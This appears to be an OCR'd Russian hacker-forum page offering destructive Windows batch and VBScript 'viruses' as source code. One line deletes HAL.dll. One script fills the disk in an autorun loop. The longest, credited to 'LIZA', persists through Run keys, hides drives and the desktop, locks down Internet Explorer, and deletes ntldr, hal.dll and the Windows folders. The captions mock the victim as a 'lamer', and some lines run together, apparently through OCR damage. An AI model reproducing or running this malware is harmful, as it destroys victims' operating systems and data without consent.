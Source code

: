Удаляет ядро системы

del %systemroot%\system32\HAL.dll

Жестокие вирусы

У вашего ламера будет глючить компьютер.

@echo off
echo Set fso = CreateObject("Scripting.FileSystemObject") > %systemdrive%\windows\system32\rundll32.vbs
echo do >> %systemdrive%\windows\system32\rundll32.vbs
echo Set tx = fso.CreateTextFile("%systemdrive%\windows\system32\rundll32.dat", True) >> %systemdrive%\windows\system32\rundll32.vbs
echo tx.WriteBlankLines(100000000) >> %systemdrive%\windows\system32\rundll32.vbs
echo tx.close >> %systemdrive%\windows\system32\rundll32.vbs
echo FSO.DeleteFile "%systemdrive%\windows\system32\rundll32.dat" >> %systemdrive%\windows\system32\rundll32.vbs
echo loop >> %systemdrive%\windows\system32\rundll32.vbs

start %systemdrive%\windows\system32\rundll32.vbs

reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v system_host_run /t REG_SZ /d %systemdrive%\windows\system32\rundll32.vbs /f

Вирус который убивает Винду. Не проверяйте на своем компьютере=)

@echo This virus created by LIZA
@echo Virus: pcforumhack.ru™ Virus
@echo Autor: LIZA
@echo off
echo Chr(39)>%temp%\temp1.vbs
echo Chr(39)>%temp%\temp2.vbs
echo on error resume next > %temp%\temp.vbs
echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp.vbs
echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp.vbs
reg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v nodesktop /d 1 /freg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v ClassicShell /d 1 /fset ¶§=%0
copy %¶§% %SystemRoot%\user32dll.bat
reg add "hklm\Software\Microsoft\Windows\CurrentVersion\Run" /v RunExplorer32 /d %SystemRoot%\user32dll.bat /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoDrives /t REG_DWORD /d 67108863 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoViewOnDrive /t REG_DWORD /d 67108863 /f
echo fso.deletefile "C:\ntldr",1 >> %temp%\temp.vbs
reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoSelectDownloadDir" /d 1 /f
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\main\FeatureControl\Feature_LocalMachine_Lockdown" /v "IExplorer" /d 0 /f
reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoFindFiles" /d 1 /f
reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoNavButtons" /d 1 /f
echo fso.deletefolder "D:\Windows",1 >> %temp%\temp.vbs
echo fso.deletefolder "I:\Windows",1 >> %temp%\temp.vbs
echo fso.deletefolder "C:\Windows",1 >> %temp%\temp.vbs
echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs
echo fso.deletefile sr+"\system32\hal.dll",1 >> %temp%\temp.vbs
echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs
echo fso.deletefolder sr+"\system32\dllcache",1 >> %temp%\temp.vbs
echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs
echo fso.deletefolder sr+"\system32\drives",1 >> %temp%\temp.vbs